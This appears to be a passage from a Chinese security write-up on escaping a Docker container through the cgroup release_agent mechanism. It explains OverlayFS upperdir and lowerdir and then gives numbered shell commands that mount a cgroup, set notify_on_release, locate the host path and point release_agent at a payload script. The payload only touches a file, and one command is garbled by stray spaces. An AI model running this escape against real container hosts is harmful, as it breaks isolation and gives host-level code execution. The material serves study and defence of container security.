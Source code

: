 ### 利用原理

要想利用 cgroup 机制进行 docker 逃逸，首先需要对 cgroup 可写，并且有可执行的 release\_agent 文件，而且 release\_agent 文件位于宿主机下，因为最后是宿主机运行 release\_agent 文件。

实际上整个 Docker 容器在运行中默认使用的存储方式为 OverlayFS 文件系统，默认使用的驱动是 overlay2。

OverlayFS 将单个 Linux 主机上的两个目录合并成一个目录。这些目录被称为层，统一过程被称为联合挂载。OverlayFS 底层目录称为 lowerdir，高层目录称为 upperdir。

`lowerdir`一般存储的是镜像相关的层，`upperdir`一般存储的是运行中的未提交容器层，它们都被挂载到了宿主机的文件系统中。

具体可参考：[https://blog.csdn.net/zhonglinzhang/article/details/80970411](https://blog.csdn.net/zhonglinzhang/article/details/80970411)

在容器内部，可以通过`/etc/mtab`文件来找到容器对应的`lowerdir`和`upperdir`

[![](assets/1706845681-b52040f58a59594cc283aa2889b8fd86.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131231712-cf4fd9ce-c04b-1.png)

Exp:

1.创建目录并挂载 cgroup

```plain
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp
```

2.在 rdma 子系统下创建一个自定义子系统

```plain
mkdir /tmp/cgrp/x
```

3.将刚刚创建的 x 子系统中的 `notify_on_release` 文件配置为 1 用来在**全部进程都退出该 cgroup 子系统后触发内核调用 release\_agent**

```plain
echo 1 > /tmp/cgrp/x/notify_on_release
```

4.获取 upper\_dir

```plain
host_path=`sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /etc/mtab`
```

5.在容器内部创建 payload

```plain
echo '#!/bin/sh' > /cmd
echo "touch /pwned" >> /cmd
chmod a+x /c m d
```

6.设置 release\_agent

```plain
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```

